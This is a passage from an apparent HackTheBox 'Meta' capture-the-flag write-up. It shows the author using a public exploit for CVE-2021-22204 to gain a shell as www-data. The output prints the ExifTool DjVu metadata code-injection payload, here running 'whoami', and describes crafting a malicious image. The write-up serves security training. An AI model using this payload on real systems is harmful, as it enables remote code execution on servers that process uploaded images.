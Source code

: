 

# Shell as `www-data`

### Exploit `exiftool`

Instead, I found "Arbitrary Code Execution" vulnerability :
https://github.com/UNICORDev/exploit-CVE-2021-22204

It has limited coverage for the tool's version but let's just try it.

```bash
┌──(kali㉿kali)-[~/htb/meta/exploit-CVE-2021-22204]
└─$ python exploit-CVE-2021-22204.py -c 'whoami'
/home/kali/htb/meta/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py:89: SyntaxWarning: invalid escape sequence '\c'
  payload = "(metadata \"\c${"

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${system('whoami')};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"
```

I crafted a image with `whoami` command injected.

![](attachments/meta_6.png)

Then the response includes `www-data` which is the response of the command.
